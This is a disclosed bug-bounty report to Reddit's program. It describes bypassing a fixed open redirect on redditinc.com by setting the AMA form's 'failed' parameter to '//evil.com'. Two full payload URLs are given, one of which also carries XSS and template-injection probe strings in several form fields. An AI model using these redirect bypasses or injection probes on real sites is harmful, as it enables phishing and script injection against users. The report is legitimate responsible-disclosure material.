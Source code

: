 # Open Redirect on www.redditinc.com via `failed` query param bypass after fixed bug #1257753

## Report Details
- **Report ID**: 1285081
- **URL**: https://hackerone.com/reports/1285081
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-30T17:02:26.822Z
- **Disclosed**: 2022-09-30T15:11:07.620Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
hello dear support

i have found bypass to open redirect this submission #1257753 after the fixed by sec team 
{F1394378}
old open redirect it;s fixed and not working  this url 
https://www.redditinc.com/ama?action=zendesk%2fdefault%2fsubmit&redirect=74bcbfb4f9c047fb4e467dd203ca3b30f2b31216551ab9db2bf44911c029d506thank-you%2fama-form-step-1&success=thank-you%2fama-form-step-1&failed=http://evil.com&ticket_form_id=360000307211&subject=AMA+Request&name=%27%22%3e%3c%2fscript%3e%3cimg+src%3dx+onerror%3dalert%28%29%3e%7b%7b7*7%7d%7d&email=wehifyyis@solarunited.net&email_confirm=wehifyyis@solarunited.net&participants=%27%22%3e%3c%2fscript%3e%3cimg+src%3dx+onerror%3dalert%28%29%3e%7b%7b7*7%7d%7d&description=%27%22%3e%3c%2fscript%3e%3cimg+src%3dx+onerror%3dalert%28%29%3e%7b%7b7*7%7d%7d&organization=%27%22%3e%3c%2fscript%3e%3cimg+src%3dx+onerror%3dalert%28%29%3e%7b%7b7*7%7d%7d&timeframe=next-week&timezone=%28GMT-05%3a00%29+Eastern+Time+%28US+%26+Canada%29&g-recaptcha-response=03AGdBq26GE8j1nvvxRFyoLySXC_sqwwVN0y8SUOy5Dt_EpgjZ_NcTluixasj63r4R-p88FygQDqWM_xAD2usiKGStmYqRt6o7DKUbfFAoJYH_e2RQnymyCPuln8k3AKMBLEVZ_aGU0hoCqzivt7ZaZWKARPDhrSOacKG4M5O7KD7LIbDAq28NtmuK7ByV0oHsM2uUQOwSv8kfsGRh5pXjLo4No1X2tlQUmj1cy7vEPQ0TJvpWzCLnc8vmhl3tjraPCqIXYkrMuf1nqAPx_0mnggUk_jUAy21JSJVGHJroH3asn70y3wOfCr_nYNAyfWo2mm3Ar5iXNwBOkq7ERaltBj9ZSaZdcOBMTq8tfKrR1mZ0h82owoCQTno3ZXHplZ7XHhegeJDOw5F4dcLHSKmiZfUNDkRqSuCO0HfDxov2ty0FWn_y9RR45fdABD--c0dqITZEUcWqJrkx&agreement=yes
this old  submission

and bypass here  

https://www.redditinc.com/ama?action=zendesk%2fdefault%2fsubmit&redirect=74bcbfb4f9c047fb4e467dd203ca3b30f2b31216551ab9db2bf44911c029d506thank-you%2fama-form-step-1&success=thank-you%2fama-form-step-1&failed=//evil.com&ticket_form_id=360000307211&subject=AMA+Request&name=ergergerg&email=tzzyspu@northsixty.com&email_confirm=tzzyspu@northsixty.com&participants=ergerg&description=ergerg&organization=ergerg&timeframe=month-plus&timezone=%28GMT-07%3a00%29+Arizona&g-recaptcha-response=03AGdBq27Lwm_f_tiYnQMq03oi7u4iTRuxyKgIuJd80Atn2dslKRSRtojLo4zmE7bxWVskHfPWbwB1jhB_nFFnONPa8m3h1ad16G4olvmuj8uTGQEW_LpXhKG3bJqVepH4OVWkZTSo7-sCuhI6ZmyZDa03Ai3zrUvGUeJDUoQGDWW4WgdglWO3TqBzQt_lDcizkX2yGHxasyCkNiifMuarK2Bp6oH52kTUtdnSHoVELj6qDIw0-B1ytpJzKBodibN7txKqSA7-airAZUH7oGU6HZHlH5BW54kJluRlAbGWsL_pMoj6hwYwVFZ7xZzmktYtyHgn5e3TYvd4lUTwmMTReE1v4X0WIID41KgSj9Fcn8KYGo85w5pXY72o-BKWxirNxs_2lh9-WIITsqEL3eTIttbPueaZ5aIb7PS5R51r8nhnTygrWv6_NI8Y5LroEgATxHEch6bWq6-5&agreement=yes


i bypass and i add this //evil.com to  failed=

{F1394382}

{F1394384}

## Impact

Open Redirect and bypass

## Attachments
- 455.PNG
- 777.PNG
- bandicam_2021-07-30_19-59-52-170.mp4
